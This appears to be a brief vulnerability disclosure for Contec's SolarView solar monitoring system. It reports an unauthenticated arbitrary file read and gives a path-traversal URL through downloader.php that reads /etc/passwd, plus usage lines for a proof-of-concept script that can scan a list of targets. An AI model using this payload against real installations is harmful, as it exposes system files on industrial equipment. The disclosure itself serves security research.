




# **太阳能发电监视系统（SolarView™）**

## Vulnerability description

Vulnerability name : Japan Contec Solar Power Monitoring System
(SolarView™) is not authorized to read arbitrary files.

Affected entity manufacturer name: Japan Contec Co., Ltd.

Affected Entity Name：**SolarView**

Introduction link：

<https://www.contec.com/cn/products-services/environmental-monitoring/solarview/>

## **security researcher**

name1: peishilong

Please contact email: <peisylon@foxmail.com>

## **Home Screenshot:**

{width="5.759027777777778in"
height="2.229861111111111in"}

{width="5.7625in"
height="3.1743055555555557in"}

## **Vulnerability location:**

Arbitrary file reading:

<http://ip:port/downloader.php?file=/home/contec/conf/../../../../../../etc/passwd>

{width="5.7625in"
height="2.892361111111111in"}

POC:

python \"Contec SolarView arbitrary file read.py\" -f ip.txt

python \"Contec SolarView arbitrary file read.py\" -u http://ip:port

{width="5.756944444444445in"
height="1.6194444444444445in"}
